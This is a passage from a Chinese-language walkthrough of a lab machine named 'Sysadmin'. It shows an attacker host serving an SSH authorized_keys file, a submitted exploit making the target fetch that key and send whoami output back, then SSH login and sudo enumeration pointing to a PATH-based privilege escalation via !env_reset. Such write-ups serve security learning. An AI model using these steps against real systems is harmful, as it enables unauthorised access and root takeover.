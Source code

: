 1. 在攻击机（`192.168.205.128`）上生成SSH密钥对，将公钥内容保存为 `authorized_keys` 文件，并于文件所在目录启动一个临时的HTTP服务。

   ```bash
   ┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
   └─$ python3 -m http.server 80
   Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
   ```

2. 将上述 `exploit.c` 的代码粘贴到目标Web应用的输入框中，并提交执行。

3. 观察攻击机上HTTP服务的日志，确认文件下载和命令执行情况。

   ```
   192.168.205.145 - - [14/Aug/2025 23:06:01] "GET /authorized_keys HTTP/1.1" 200 -
   192.168.205.145 - - [14/Aug/2025 23:06:01] "GET /?echo HTTP/1.1" 404 -
   ```

   日志清晰地显示，目标主机首先成功请求了 `authorized_keys` 文件。随后，第二个请求的路径中包含了 `echo` 字符串，这是 `whoami` 命令执行结果的回显，从而确认了Web服务的运行用户为 `echo`。

## **3. 获取初始访问权限**

既然SSH公钥已成功部署到目标主机 `echo` 用户的家中，现在我们可以使用对应的私钥直接进行SSH登录。

```bash
ssh echo@192.168.205.145
```

成功登录后，通过 `id` 命令验证当前用户身份。

```bash
echo@Sysadmin:~$ id
uid=1000(echo) gid=1000(echo) groups=1000(echo)
```

至此，我们已成功获取了用户 `echo` 的交互式Shell，完成了初始访问。

# **三、权限提升**

## **1. Sudo权限枚举**

在获得初始立足点后，首要任务是探查是否存在权限提升的路径。我们检查当前用户 `echo` 的 `sudo` 配置。

```bash
echo@Sysadmin:~$ sudo -l
Matching Defaults entries for echo on Sysadmin:
    !env_reset, mail_badpass, !env_reset, always_set_home

User echo may run the following commands on Sysadmin:
    (root) NOPASSWD: /usr/local/bin/system-info.sh
```

`sudo -l` 的输出揭示了关键信息：

1.  **`!env_reset`**：这是一个非常重要的安全配置。它告知我们，当 `echo` 用户使用 `sudo` 执行命令时，系统**不会**重置大部分用户的环境变量，其中就包括 `PATH` 环境变量。这个特性是本次提权漏洞的核心。
2.  **(root) NOPASSWD: /usr/local/bin/system-info.sh**：用户 `echo` 可以无需密码，以 `root` 权限执行 `/usr/local/bin/system-info.sh` 这个脚本。
